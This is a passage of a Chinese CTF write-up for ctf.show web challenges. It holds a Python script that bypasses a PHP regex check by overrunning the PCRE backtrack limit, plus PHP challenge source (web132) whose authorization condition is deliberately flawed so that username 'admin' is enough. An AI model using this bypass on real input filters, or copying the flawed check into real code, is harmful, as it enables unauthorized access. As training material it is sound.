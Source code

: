 ```
}
```

正则表达式进行匹配，回溯绕过安全机制

```
import requests

url='http://3d994b30-c182-4f9d-9eb3-2cfff11100f2.challenge.ctf.show/'
data={
    'f':'a'*1000000+'36Dctfshow'
}
r=requests.post(url=url,data=data).text
print(r)


```

![image-20221005153232312](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051532422.png?x-oss-process=hzy)

[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

# web132

![image-20221005153431272](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051534386.png?x-oss-process=hzy)

一个网站，扫目录发现/admin/index.php,得到如下源码

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 06:22:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 20:05:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```
